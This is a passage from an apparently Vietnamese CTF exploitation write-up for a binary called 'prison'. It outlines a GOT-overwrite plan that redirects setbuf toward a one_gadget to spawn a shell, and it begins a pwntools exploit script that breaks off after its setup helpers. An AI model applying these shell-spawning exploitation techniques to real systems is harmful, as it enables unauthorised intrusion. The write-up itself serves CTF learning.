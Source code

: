 - vì may mắn là dl lúc này là 0x20 , nên ý tưởng là ta sẽ add đến khi bl là 0x80 và dùng gadget add địa chỉ got của setbuf -> setbuf+0x128 , lúc này đặt giá trị của `rbx` hoàn toàn có thể control được , ta chỉ cần setup `one_gadget` và lấy shell thôi 

![image](https://hackmd.io/_uploads/B1nW_a2ygl.png)


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwn import *

context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
context.update(arch="amd64", os="linux")
context.log_level = "debug"
exe = context.binary = ELF("./prison_patched", checksec=False)
libc = exe.libc
log_levels = ["info", "error", "warn", "debug"]
info = lambda msg: log.info(msg)
error = lambda msg: log.error(msg)
warn = lambda msg: log.warn(msg)
debug = lambda msg: log.debug(msg)


def one_gadget(filename, base_addr=0):
    return [
        (int(i) + base_addr)
        for i in subprocess.check_output(["one_gadget", "--raw", "-l0", filename])
        .decode()
        .split(" ")
    ]


info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: (
    proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: (
    proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
)
sn = lambda num, proc=None: (
    proc.send(str(num).encode()) if proc else p.send(str(num).encode())
)
sna = lambda msg, num, proc=None: (
    proc.sendafter(msg, str(num).encode())
    if proc
```